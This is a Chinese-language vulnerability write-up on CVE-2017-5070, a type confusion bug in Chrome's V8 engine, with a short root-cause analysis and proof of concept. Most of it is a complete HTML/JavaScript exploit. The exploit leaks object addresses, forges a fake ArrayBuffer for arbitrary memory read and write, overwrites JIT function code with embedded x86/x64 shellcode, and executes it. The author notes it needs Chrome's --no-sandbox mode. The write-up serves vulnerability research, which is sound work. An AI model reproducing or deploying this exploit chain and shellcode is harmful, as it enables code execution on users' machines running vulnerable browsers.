

# CVE-2017-5070 Type Confusion

## 参考
1. [POC Code](https://chromium.googlesource.com/v8/v8.git/+/e33fd30777f99a0d6e16b16d096a2663b1031457)
2. [Exploit Code](https://bugs.chromium.org/p/chromium/issues/detail?id=722756)
3. [有问题的V8](https://chromium.googlesource.com/v8/v8/+/5.8-lkgr)

## Root Cause
```

var array = [[{}], [1.1]];
var double_arr2 = [1.1,2.2];
function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }

}

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}
var expected = 6.176516726456e-312;
function f(){
  Math.sin(1);
  swap();  
  double_arr2[0] = 1;
  transition(); 
  double_arr2[1] = expected; 
  
}
%DebugPrint(double_arr2);
f();
%OptimizeFunctionOnNextCall(f);
flag = 1;
f();

print ("111");
print (expected === double_arr2[1]);
print ("222")

```

大致分析是double_arr2的map给修改, 引发类型混淆

进一步确定root cause 


什么情况下会触发修改map的call function呢？ 对应OPT Code 如下：


所以，arr[0] = {}， double_arr2 由[1, 6.176516726456e-312] 变成了 [{}, 6.176516726456e-312], 触发了transition



进一步,Crash原因


## Exploit
原本以为可以在Chrome上exploit成功，结果必须--no-sandbox模式下，故详细总结略。

大致思路：
1. 利用Type Confusion 讲Object混淆为Float，用于Leak Object地址； 
2. Float混淆为Object，伪造一个fake arraybuffer
3. 通过DataView 操作fake arraybuffer，读取function code entry地址，也可以修改code 内容为shellcode


```
<html>
<script>
    //var shellcode = [0xcccccccc,0x90909090];
    
    var shellcode_dict = {
    "x86":"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
    +"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    +"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
    +"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    +"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
    +"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
    +"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
    +"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    +"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
    +"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
    +"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
    +"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
    +"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00", 
    "x64": "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
    +"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    +"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
    +"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
    +"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
    +"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
    +"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
    +"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
    +"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
    +"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
    +"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
    +"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
    +"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
    +"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    +"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
    +"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
    +"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
    +"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
    +"\x63\x2e\x65\x78\x65\x00"};

    var shellcode_str = shellcode_dict["x64"];
    var shellcode_buf = new ArrayBuffer(shellcode_str.length);
    var shellcode = new Uint8Array(shellcode_buf);
    for (var i=0, strLen=shellcode_str.length; i<strLen; i++) {
        shellcode[i] = shellcode_str.charCodeAt(i);
    }

    function d2u(num1,num2){
        d = new Uint32Array(2);
        d[0] = num2;
        d[1] = num1;
        f = new Float64Array(d.buffer);
        return f[0];
    }
    
    function encode_to_float64(num) {
        f = new Float64Array(1);
        f[0] = num;
        d = new Uint32Array(f.buffer);
        return d[1] * 0x100000000 + d[0];
    }
    
    function change_to_float(intarr,floatarr){
        var j = 0;
        for(var i = 0;i < intarr.length;i = i+2){
            var re = d2u(intarr[i+1],intarr[i]);
            floatarr[j] = re;
            j++;
        }
    }
    
    

    // 1. leak ArrayBuffer address
    flag = 0;
    var array = [[{}], [1.1]];  
    var double_arr_2  = [1.1, 2.2]; 
    var ab = new ArrayBuffer(0x20);

    function read_obj_addr(object){
    
        var valueOf1 = {};
        valueOf1.valueOf = function(){
            if(flag == 1){
                array[0x1] = double_arr_2;
                
            }
            return 1;
        };
        
        function carry_me_plz(arr,obj){
            for(var i = 0;i < arr.length;i++){
                var o = arr[i];
                o[0] = obj;
            }
        }
        function sorry(){
            1 + valueOf1;
            double_arr_2[0] = 1.1;
            carry_me_plz(array,object);
            return double_arr_2[0];
        }

        for(var i = 0;i < 0x1000;i++){
            carry_me_plz(array,object);
        }
        for(var i = 0;i < 0x1000;i++){
            sorry();
        }
        /*
        carry_me_plz(array,object);
        sorry();
        %OptimizeFunctionOnNextCall(carry_me_plz);
        %OptimizeFunctionOnNextCall(sorry);
        */
            
        flag = 1;
        re = encode_to_float64(sorry());
        return re;
    }       
    ab_proto_addr = read_obj_addr(ab.__proto__);
    //print("ab_proto_addr: 0x" + ab_proto_addr.toString(0x10));
    ab_constructor_addr = ab_proto_addr - 0x70;
    

    
    var nop = 0xdaba0000;
    var ab_map_obj = [
        nop,nop,
        0x1f000008,0x000900c0,0x082003ff,0x0,
        nop,nop,   // use ut32.prototype replace it
        nop,nop,0x0,0x0
    ];
    
    ab_map_obj[0x6] = ab_proto_addr & 0xffffffff;
    ab_map_obj[0x7] = ab_proto_addr / 0x100000000;
    ab_map_obj[0x8] = ab_constructor_addr & 0xffffffff;
    ab_map_obj[0x9] = ab_constructor_addr / 0x100000000;
    float_arr = [];


    var ab_map_obj_float = [1.1,1.1,1.1,1.1,1.1,1.1];
    change_to_float(ab_map_obj,ab_map_obj_float);
        
    flag = 0;
    var array2 = [[{}], [1.1]]; 
    var double_arr22  = [1.1, 2.2]; 
    
    var valueOf2 = {};
    valueOf2.valueOf = function(){
        if(flag == 1){
            array2[0x1] = double_arr22;
            
        }
        return 1;
    };
    function read_obj_addr2(object){
        function carry_me_plz(arr,obj){
            for(var i = 0;i < arr.length;i++){
                var o = arr[i];
                o[0] = obj;
            }
        }
        function sorry(){
            1 + valueOf2;
            double_arr22[0] = 1.1;
            carry_me_plz(array2,object);
            return double_arr22[0];
        }
      
        for(var i = 0;i < 0x1000;i++){
            carry_me_plz(array2,object);
        }
        for(var i = 0;i < 0x1000;i++){
            sorry();
        }
        /*
        carry_me_plz(array2,object);
        sorry();
        %OptimizeFunctionOnNextCall(carry_me_plz);
        %OptimizeFunctionOnNextCall(sorry);
        */
       
        flag = 1;
        re = encode_to_float64(sorry());
        return re;
    }
    ab_map_obj_addr = read_obj_addr2(ab_map_obj_float) + 0x40;  
    //print("ab_map_obj_addr: 0x" + ab_map_obj_addr.toString(0x10));
    //Math.sin(1);
    
    
    /////////////////////////////          3           //////////////////////////
    
    var fake_ab = [
        ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
        ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
        ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
        0x0,0x4000, // buffer length 
        0x12345678,0x123,// buffer address
        0x4,0x0
    ]
    var fake_ab_float = [1.1,1.1,1.1,1.1,1.1,1.1];
    change_to_float(fake_ab,fake_ab_float);
    
    flag = 0;
    var array3 = [[{}], [1.1]]; 
    var double_arr32  = [1.1, 2.2]; 
    
    var valueOf3 = {};
    valueOf3.valueOf = function(){
        if(flag == 1){
            array3[0x1] = double_arr32;
            
        }
        return 1;
    };
    function read_obj_addr3(object){
        function carry_me_plz(arr,obj){
            for(var i = 0;i < arr.length;i++){
                var o = arr[i];
                o[0] = obj;
            }
        }
        function sorry(){
            1 + valueOf3;
            double_arr32[0] = 1.1;
            carry_me_plz(array3,object);
            return double_arr32[0];
        }

        for(var i = 0;i < 0x1000;i++){
            carry_me_plz(array3,object);
        }
        for(var i = 0;i < 0x1000;i++){
            sorry();
        }           
        /*
        carry_me_plz(array3,object);
        sorry();
        
        %OptimizeFunctionOnNextCall(carry_me_plz);
        %OptimizeFunctionOnNextCall(sorry);
        */
        flag = 1;
        re = encode_to_float64(sorry());
        return re;
    }
    fake_ab_float_addr = read_obj_addr3(fake_ab_float) + 0x40;
    //print("fake_ab_float_addr: 0x" + fake_ab_float_addr.toString(0x10));
    Math.sin(1);
    
    
    flag = 0;
    var array4 = [[{}], [1.1]]; 
    var double_arr42  = [1.1, 2.2]; 
    
    var valueOf4 = {};
    valueOf4.valueOf = function(){
        if(flag == 1){
            array4[0x1] = double_arr42;
            
        }
        return 1;
    };
    fake_ab_float_addr_f = d2u(fake_ab_float_addr / 0x100000000,fake_ab_float_addr & 0xffffffff);
    function carry_me_plz_fake(arr){
        for(var i = 0;i < arr.length;i++){
            var o = arr[i];
            ttt = o[0];
        }
    }
    function sorry_fake(){
        1 + valueOf4;
        double_arr42[0] = 1.1;
        carry_me_plz_fake(array4);
        double_arr42[1] = fake_ab_float_addr_f
    }
    
    for(var i = 0;i < 0x1000;i++){
        carry_me_plz_fake(array4);
    }
    for(var i = 0;i < 0x1000;i++){
        sorry_fake();
    }
    flag = 1;
    sorry_fake();
    fake_arraybuffer = double_arr42[1];
    fake_dv = new DataView(fake_arraybuffer,0,0x4000);
    
    
    
    
    var function_to_shellcode = function () {
        eval('');
    }

    flag = 0;
    var array5 = [[{}], [1.1]]; 
    var double_arr52  = [1.1, 2.2]; 
    
    var valueOf5 = {};
    valueOf5.valueOf = function(){
        if(flag == 1){
            array5[0x1] = double_arr52;
            
        }
        return 1;
    };
    function read_obj_addr5(object){
        function carry_me_plz(arr,obj){
            for(var i = 0;i < arr.length;i++){
                var o = arr[i];
                o[0] = obj;
            }
        }
        function sorry(){
            1 + valueOf5;
            double_arr52[0] = 1.1;
            carry_me_plz(array5,object);
            return double_arr52[0];
        }
        for(var i = 0;i < 0x1000;i++){
            carry_me_plz(array5,object);
        }
        for(var i = 0;i < 0x1000;i++){
            sorry();
        }
        flag = 1;
        re = encode_to_float64(sorry());
        return re;
    }
    shellcode_address_ref = read_obj_addr5(function_to_shellcode) + 0x38-1;
    //print("shellcode_address_ref: 0x" + shellcode_address_ref.toString(0x10));
    
    
        /**************************************  And now,we get arbitrary memory read write!!!!!!   ******************************************/
    
    function Read32(addr){
        fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
        return fake_dv.getUint32(0,true);
    }
    function Write32(addr,value){
        fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);   
        fake_dv.setUint32(0,value,true);
    }

    shellcode_address = Read32(shellcode_address_ref) + Read32(shellcode_address_ref+0x4) * 0x100000000;;

    var addr = shellcode_address;
    
    fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
    for(var i = 0; i < shellcode.length;i++){
        var value = shellcode[i];       
        fake_dv.setUint8(i,value,true);
    }

    function_to_shellcode();
</script>
</html> 
```


